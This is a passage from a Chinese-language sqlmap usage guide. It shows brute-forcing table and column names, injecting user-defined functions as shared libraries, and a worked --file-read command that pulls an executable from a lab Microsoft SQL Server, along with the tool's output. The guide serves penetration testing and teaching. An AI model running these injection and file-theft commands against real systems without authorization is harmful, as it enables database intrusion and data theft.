 ```
[hh:mm:40] [INFO] checking table existence using items from '/software/sqlmap/txt/common-tables.txt'
[hh:mm:40] [INFO] adding words used on web page to the check list
please enter number of threads? [Enter for 1 (current)] 8
[hh:mm:43] [INFO] retrieved: users

Database: testdb
[1 table]
+-------+
| users |
+-------+
```

### 暴力破解列名

参数：–common-columns

与暴力破解表名一样，暴力跑的列名在txt/common-columns.txt中。

## 用户自定义函数注入

* * *

参数：–udf-inject,–shared-lib

你可以通过编译MySQL注入你自定义的函数（UDFs）或PostgreSQL在windows中共享库，DLL，或者Linux/Unix中共享对象，sqlmap将会问你一些问题，上传到服务器数据库自定义函数，然后根据你的选择执行他们，当你注入完成后，sqlmap将会移除它们。

## 系统文件操作

* * *

### 从数据库服务器中读取文件

参数：–file-read

当数据库为MySQL，PostgreSQL或Microsoft SQL Server，并且当前用户有权限使用特定的函数。读取的文件可以是文本也可以是二进制文件。

列举一个Microsoft SQL Server 2005的例子：

```
$ python sqlmap.py -u "http://192.168.136.129/sqlmap/mssql/iis/get_str2.asp?name=luther" \
--file-read "C:/example.exe" -v 1

[...]
[hh:mm:49] [INFO] the back-end DBMS is Microsoft SQL Server
web server operating system: Windows 2000
web application technology: ASP.NET, Microsoft IIS 6.0, ASP
back-end DBMS: Microsoft SQL Server 2005

[hh:mm:50] [INFO] fetching file: 'C:/example.exe'
[hh:mm:50] [INFO] the SQL query provided returns 3 entries
C:/example.exe file saved to:    '/software/sqlmap/output/192.168.136.129/files/C__example.exe'
[...]

$ ls -l output/192.168.136.129/files/C__example.exe 
-rw-r--r-- 1 inquis inquis 2560 2011-MM-DD hh:mm output/192.168.136.129/files/C__example.exe

$ file output/192.168.136.129/files/C__example.exe 
output/192.168.136.129/files/C__example.exe: PE32 executable for MS Windows (GUI) Intel
80386 32-bit
```
